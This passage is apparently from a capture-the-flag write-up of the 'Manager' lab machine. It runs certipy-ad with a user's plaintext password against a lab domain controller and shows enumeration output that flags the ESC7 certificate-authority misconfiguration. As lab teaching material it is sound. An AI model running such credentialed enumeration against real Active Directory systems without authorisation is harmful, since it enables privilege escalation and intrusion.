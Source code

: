 We'll attempt to identify potential misconfigurations within the Certification Authority. Let's utilize certipy to find any vulnerabilities that may exist.

```sh
certipy-ad find -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -stdout -vulnerable

Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates[*] Trying to get CA configuration for 'manager-DC01-CA' via CSRA
[*] Got CA configuration for 'manager-DC01-CA'
[*] Enumeration output:
Certificate Authorities
0
CA Name: manager-DC01-CA
DNS Name: dc01.manager.htb
Certificate Subject: CN=manager-DC01-CA, DC=manager, DC=htb
Certificate Serial Number: 5150CE6EC048749448C7390A52F264BB
Certificate Validity Start: 2023-07-27 10:21:05+00:00
Certificate Validity End: 2122-07-27 10:31:04+00:00
Web Enrollment: Disabled
User Specified SAN: Disabled
Request Disposition: Issue
Enforce Encryption for Requests: Enabled
Permissions
Owner
: MANAGER.HTB\Administrators
Access Rights
Enroll
: MANAGER.HTB\Operator
MANAGER.HTB\Authenticated Users
MANAGER.HTB\Raven
ManageCa
: MANAGER.HTB\Administrators
MANAGER.HTB\Domain Admins
MANAGER.HTB\Enterprise Admins
MANAGER.HTB\Raven
ManageCertificates
: MANAGER.HTB\Administrators
MANAGER.HTB\Domain Admins
MANAGER.HTB\Enterprise Admins
[!] Vulnerabilities
ESC7
: 'MANAGER.HTB\\Raven' has dangerous
permissions
Certificate Templates
: [!] Could not find any certificate
templates
```

